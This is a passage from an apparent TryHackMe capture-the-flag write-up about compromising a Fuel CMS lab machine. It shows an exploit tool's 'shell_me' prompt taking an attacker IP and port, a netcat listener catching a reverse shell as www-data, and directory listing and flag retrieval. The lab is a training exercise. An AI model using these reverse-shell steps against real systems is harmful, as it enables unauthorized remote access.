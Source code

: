 fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ [Attack_IP]:[Port]
   
</code></pre>
<br>

<p>After typing option <code>shell_me</code>, I got access to the <code>Target Machine</code>.</p>

<br>

<p>And I got access to the <code> Target Machine</code>.</p>

<pre><code>$ root@[Attack_IP]:~# nc -lvnp [Port]

Listening on [0.0.0.0] (family 0, port [Port])
Connection from [Target_IP] [Target_Port] received!
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/var/www/html/fuelcms
$ whoami
www-data
$ cd /home/ubuntu
$ ls -la
total 40
drwxr-xr-x 5 ubuntu ubuntu 4096 Sep  3  2021 .
drwxr-xr-x 3 root   root   4096 Sep  3  2021 ..
-rw------- 1 ubuntu ubuntu  178 Sep  3  2021 .Xauthority
lrwxrwxrwx 1 ubuntu ubuntu    9 Sep  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .cache
drwxrwxr-x 3 ubuntu ubuntu 4096 Sep  3  2021 .local
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Sep  3  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 ubuntu ubuntu   23 Sep  3  2021 flag.txt
$ cat flag.txt
THM{ACKME_BLOG_HACKED}
</code></pre>
<br>

<h2>Room Complete</h2>
<p>Keep learning, keep growing!<br>

![image](https://github.com/user-attachments/assets/80a2a3bc-f069-46cc-ace2-006c45bbd4a9)

<h2>My journey</h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>

![image](https://github.com/user-attachments/assets/d1097bf7-819c-4529-a163-5c119e8bd770)

<p></p>

<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>
